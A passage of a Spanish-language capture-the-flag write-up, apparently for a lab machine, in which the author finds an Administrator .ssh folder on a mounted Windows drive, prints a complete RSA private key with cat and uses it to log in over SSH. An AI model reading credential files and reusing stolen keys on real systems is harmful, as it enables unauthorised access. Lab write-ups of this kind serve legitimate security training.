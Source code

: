 >Como vemos parece que hay como una especie de montura o duplicado del disco `c` de la maquina `Windows ` dentro del sistema, como vemos hay un directorio `.ssh` que puede que tenga `id_rsa` valida para la conexión

```bash
root@box:/c/Users/Administrator# cd .ssh/                                                                                                                                             
root@box:/c/Users/Administrator/.ssh# ls -la                                                                                                                                          
total 18
drwxrwxrwx    1 docker   staff         4096 Feb 19  2020 .
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 ..
-rwxrwxrwx    1 docker   staff          404 Feb 19  2020 authorized_keys
-rwxrwxrwx    1 docker   staff         1675 Feb 19  2020 id_rsa
-rwxrwxrwx    1 docker   staff          404 Feb 19  2020 id_rsa.pub
-rwxrwxrwx    1 docker   staff          348 Feb 19  2020 known_hosts
root@box:/c/Users/Administrator/.ssh# cat id_rsa                                                                                                                                      
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvo4SLlg/dkStA4jDUNxgF8kbNAF+6IYLNOOCeppfjz6RSOQv
Md08abGynhKMzsiiVCeJoj9L8GfSXGZIfsAIWXn9nyNaDdApoF7Mfm1KItgO+W9m
M7lArs4zgBzMGQleIskQvWTcKrQNdCDj9JxNIbhYLhJXgro+u5dW6EcYzq2MSORm
7A+eXfmPvdr4hE0wNUIwx2oOPr2duBfmxuhL8mZQWu5U1+Ipe2Nv4fAUYhKGTWHj
4ocjUwG9XcU0iI4pcHT3nXPKmGjoPyiPzpa5WdiJ8QpME398Nne4mnxOboWTp3jG
aJ1GunZCyic0iSwemcBJiNyfZChTipWmBMK88wIDAQABAoIBAH7PEuBOj+UHrM+G
Stxb24LYrUa9nBPnaDvJD4LBishLzelhGNspLFP2EjTJiXTu5b/1E82qK8IPhVlC
JApdhvDsktA9eWdp2NnFXHbiCg0IFWb/MFdJd/ccd/9Qqq4aos+pWH+BSFcOvUlD
vg+BmH7RK7V1NVFk2eyCuS4YajTW+VEwD3uBAl5ErXuKa2VP6HMKPDLPvOGgBf9c
l0l2v75cGjiK02xVu3aFyKf3d7t/GJBgu4zekPKVsiuSA+22ZVcTi653Tum1WUqG
MjuYDIaKmIt9QTn81H5jAQG6CMLlB1LZGoOJuuLhtZ4qW9fU36HpuAzUbG0E/Fq9
jLgX0aECgYEA4if4borc0Y6xFJxuPbwGZeovUExwYzlDvNDF4/Vbqnb/Zm7rTW/m
YPYgEx/p15rBh0pmxkUUybyVjkqHQFKRgu5FSb9IVGKtzNCtfyxDgsOm8DBUvFvo
qgieIC1S7sj78CYw1stPNWS9lclTbbMyqQVjLUvOAULm03ew3KtkURECgYEA17Nr
Ejcb6JWBnoGyL/yEG44h3fHAUOHpVjEeNkXiBIdQEKcroW9WZY9YlKVU/pIPhJ+S
7s++kIu014H+E2SV3qgHknqwNIzTWXbmqnclI/DSqWs19BJlD0/YUcFnpkFG08Xu
iWNSUKGb0R7zhUTZ136+Pn9TEGUXQMmBCEOJLcMCgYBj9bTJ71iwyzgb2xSi9sOB
MmRdQpv+T2ZQQ5rkKiOtEdHLTcV1Qbt7Ke59ZYKvSHi3urv4cLpCfLdB4FEtrhEg
5P39Ha3zlnYpbCbzafYhCydzTHl3k8wfs5VotX/NiUpKGCdIGS7Wc8OUPBtDBoyi
xn3SnIneZtqtp16l+p9pcQKBgAg1Xbe9vSQmvF4J1XwaAfUCfatyjb0GO9j52Yp7
MlS1yYg4tGJaWFFZGSfe+tMNP+XuJKtN4JSjnGgvHDoks8dbYZ5jaN03Frvq2HBY
RGOPwJSN7emx4YKpqTPDRmx/Q3C/sYos628CF2nn4aCKtDeNLTQ3qDORhUcD5BMq
bsf9AoGBAIWYKT0wMlOWForD39SEN3hqP3hkGeAmbIdZXFnUzRioKb4KZ42sVy5B
q3CKhoCDk8N+97jYJhPXdIWqtJPoOfPj6BtjxQEBoacW923tOblPeYkI9biVUyIp
BYxKDs3rNUsW1UUHAvBh0OYs+v/X+Z/2KVLLeClznDJWh/PNqF5I
-----END RSA PRIVATE KEY-----
```

**Y aquí lo tenemos, una `id_rsa` por lo que lo ultimo que queda seria probarla y ver a donde nos conecta**

```bash
ssh -i id_rsa Administrator@10.10.10.236
Microsoft Windows [Version 10.0.17763.1039]
(c) 2018 Microsoft Corporation. All rights reserved. 

administrator@TOOLBOX C:\Users\Administrator>dir     
 Volume in drive C has no label.
 Volume Serial Number is 64F8-B588

 Directory of C:\Users\Administrator

02/08/2021  11:38 AM    <DIR>          .
02/08/2021  11:38 AM    <DIR>          ..
02/18/2020  05:34 PM    <DIR>          .docker     
02/19/2020  06:49 PM    <DIR>          .ssh        
```